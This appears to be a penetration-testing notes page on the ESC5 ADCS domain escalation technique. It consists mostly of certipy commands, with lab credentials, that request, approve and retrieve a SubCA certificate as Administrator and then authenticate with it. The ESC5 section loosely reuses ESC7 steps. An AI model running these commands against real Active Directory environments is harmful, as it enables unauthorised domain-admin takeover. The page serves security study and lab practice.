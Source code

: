 ```yaml
---
description: Domain escalation that abuses access controls
---
```


# ESC5

ESC5 is a domain escalation technique that exploits weak access controls on Active Directory objects indirectly linked to ADCS. These objects can enable privilege escalation through ADCS.

{% hint style="info" %}
The entire Public Key Infrastructure or PKI can be compromised if an account has elevated privileges over objects tied to ADCS configuration or the ADCS server is compromised.
{% endhint %}

### <mark style="color:yellow;">ESC5 Abuse from Linux</mark>

Enumerate ADCS servier using `-ns` for DNS server IP and `-dns-tcp` so it uses TCP.

```sh
proxychains4 -q certipy find -u cken -p Superman001 -dc-ip 172.16.19.3 -stdout -ns 172.16.19.3 -dns-tcp
```

Replicate ESC7 attack using SubCA temmplate to generate a certificate as administrator. Specify `-target-ip <ADCS Server>` option since the ADCS server and the domain controller are different servers.

```sh
proxychains4 -q certipy req -u cken -p Superman001 -dc-ip 172.16.19.3 -ns 172.16.19.3 -dns-tcp -target-ip 172.16.19.5 -ca lab-WS01-CA -template SubCA -upn Administrator
```

Approve the request using the right ID from previous step.

```sh
proxychains4 -q certipy ca -u cken -p Superman001 -dc-ip 172.16.19.3 -ns 172.16.19.3 -dns-tcp -target-ip 172.16.19.5 -ca lab-WS01-CA -issue-request 10
```

Finally retrieve the certificate and authenticate

```sh
# Retrieve
proxychains4 -q certipy req -u cken -p Superman001 -dc-ip 172.16.19.3 -ns 172.16.19.3 -dns-tcp -target-ip 172.16.19.5 -ca lab-WS01-CA -retrieve 10

# Authenticate
proxychains4 -q certipy auth -pfx administrator.pfx -username administrator -domain lab.local -dc-ip 172.16.19.3 -ns 172.16.19.3 -dns-tcp
```

